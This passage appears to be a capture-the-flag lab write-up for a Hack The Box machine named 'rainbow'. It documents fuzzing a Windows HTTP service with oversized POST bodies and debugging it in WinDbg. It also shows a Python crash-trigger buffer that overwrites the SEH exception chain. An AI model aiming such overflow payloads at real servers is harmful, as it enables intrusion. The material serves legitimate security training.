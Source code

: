 The maths
```sh
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/rainbow/dump]
└─$ echo 'ibase=16; obase=A; D64-C68' | bc
252
```

The http post request added to the request has thrown off initial assumptions.

One key discovery is that during testing, I found that the payload only makes it to the functionpointer exec if the connection is kept open.

Additionally, I found that the sent data can be max 0x1000 bytes, anything over that resets the buffer (causes it to get zeroed back out and any modulo 0x1000 is received as the buffer)

The following has two breakpoints, one at the call for recv, the other at the function call that contains the functionpointer exec.

```sh
((cmd.exe /c "taskkill /F /IM rainbow.exe" && timeout 3 && START /B "" "c:\rainbow\rainbow.exe" > c:\users\admin\desktop\current_thing\output.txt) || START /B "" "c:\rainbow\rainbow.exe" > c:\users\admin\desktop\current_thing\output.txt) && timeout 3 && "C:\Program Files (x86)\Windows Kits\10\Debuggers\x86\windbg.exe" -WF C:\windbg_custom.WEW -pn rainbow.exe -c 'bp 0x00401971; bp 0x0040232f; g'
```


# Finding a crash

I found that if I debug without any breakpoints, and if I send a POST request with 0x1000 bytes, I get a response back.
```sh
┌──(notroot㉿elysium)-[(master) 2 ~/htb/machines/rainbow]
└─$ perl -e "printf 'A'x0x1000" | curl -X POST http://192.168.56.100:8080/index.html -d "fuzzed=$(cat -)"
<html><h1>404 Not Found</h1></html>
```

If I back that off just by 0x100 bytes, I get AccessViolation.
```sh
┌──(notroot㉿elysium)-[(master) 2 ~/htb/machines/rainbow]
└─$ perl -e "printf 'A'x0x0f00" | curl -X POST http://192.168.56.100:8080/index.html -d "fuzzed=$(cat -)"
```

![[Pasted_image_20251026012334.png]]

The exception chain shows that it has been overwritten with As:
```sh
0:003> !exchain
009bfbe4: 41414141
Invalid exception stack at 41414141
```

Further, once converted to python,  I found that I can coerce this failure with a very minimal POST body, saving space and eliminating variability.

```python
buf = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
buf += ("\x41" * 0xf00)
```
^^ 3908 bytes total
